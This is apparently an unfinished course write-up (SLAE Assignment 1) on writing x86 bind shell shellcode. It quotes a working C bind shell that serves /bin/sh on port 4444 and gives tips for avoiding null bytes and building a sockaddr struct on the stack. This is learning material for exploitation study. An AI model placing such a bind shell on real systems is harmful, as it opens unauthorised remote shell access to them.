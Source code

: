 # WIP

## Assignment 1 - Bind Shell

### What does a Bind Shell need to do?

A high level overview of a Bind Shell is that it creates a socket, binds that socket to a port, listens for a connection, accepts a connect, then execs /bin/sh (or another shell) and duplicates STDIN, STDOUT, and STDERR to the file descriptor of the connected socket. One of my favorite resources for shellcoding is the tutorial series by Azeria Labs for exploitation on the ARM architecture. I outlined what my shellcode needed to accomplish by looking at Azeria's C version of a [bind shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/):
```C
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid);
```

### The Process
Writing unobfuscated shellcode in x86 assembly is straightforward. It consists of moving the appropriate values into registers for a series of system calls. A quick ```man 2 syscall``` reveals the calling convention and Application Binary Interface (ABI). However, a few issues require some forethought: 
1. Avoiding null bytes (0x00) or other bad characters if needed
    - XOR a register with itself to zero it out, e.g. ```xor eax, eax``` instead of ```mov eax, 0```
    - Write to 8- or 16-bit registers to avoid leading zeros, e.g. ```mov al, 10``` instead of ```mov eax, 10```
2. Building a *sockaddr* struct on the stack
3. Strings, because our code is position independent

### Headache #1 - Building a sockaddr
Re-write this better later: I tripped over the ```struct sockaddr *``` required as the second argument to the *bind* syscall. What order were the address family, port, and IP address to be passed? Where was the padding?

I used a "Guess and Check" approach, writing assembly to build various permutations of this on the stack:

| value     | location  | meaning               |
|------     | --------- | -----                 |
|0x02005555 | rsp       | AF\_INET, port 0x5555 |
|0x00000000 | rsp + 4   | INADDR\_ANY           |

This *seemed* right. When I compiled and ran ```printf("size = %d\n", sizeof(struct sockaddr));``` and saw the struct consisted of 16 bytes, I came to the conclusion that it should be built on the stack with exactly two 32-bit values, accounting for endianness and padding. Sadly, I got stuck at this juncture and looked for how someone else did it:

Another SLAE student [https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp](https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp)
pushed first the IPv4 address, then the port number as a *word*, and lastly the *sin\_family* as a *word*.  
